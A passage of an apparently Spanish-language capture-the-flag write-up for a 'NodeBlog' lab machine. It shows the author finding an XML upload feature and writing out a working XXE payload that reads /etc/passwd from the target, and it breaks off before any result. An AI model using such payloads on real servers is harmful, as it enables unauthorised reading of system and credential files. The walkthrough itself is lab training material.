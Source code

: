 Vamos a irnos al navegador para ver que funciones tenemos. Tenemos que añadir la cookie para entrar en la sesión.

![](/assets/images/NodeBlog/img5.png)

Vemos que ahora podemos realizar nuevas acciones. Entre ellas:

- Crear artículos.
- Subir artículos.
- Modificar y borrar artículos.

### XXE Read Files

Si intentamos subir algo a "Upload" (yo he probado subir una image) podemos ver el siguiente error.

```
Invalid XML Example: Example DescriptionExample Markdown
```

Si miramos el código fuente podemos ver la estructura XML

```xml
Invalid XML Example: <post><title>Example Post</title><description>Example Description</description><markdown>Example Markdown</markdown></post>
```

Conociendo la estructura XML podememos intentar hacer un ataque XXE para leer archivos en el servidor, ejecutar comandos... etc

Vamos a crear nuestro archivo XML malicioso.

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM  "file:///etc/passwd" >]>
<post>
        <title>b</title>
        <description>l</description>
        <markdown>&xxe;</markdown>

</post>
```

Voy a intentar leer el archivo passwd de la máquina víctima. Voy a capturar la petición con burpsuite para ir modificado el fichero desde ahí.
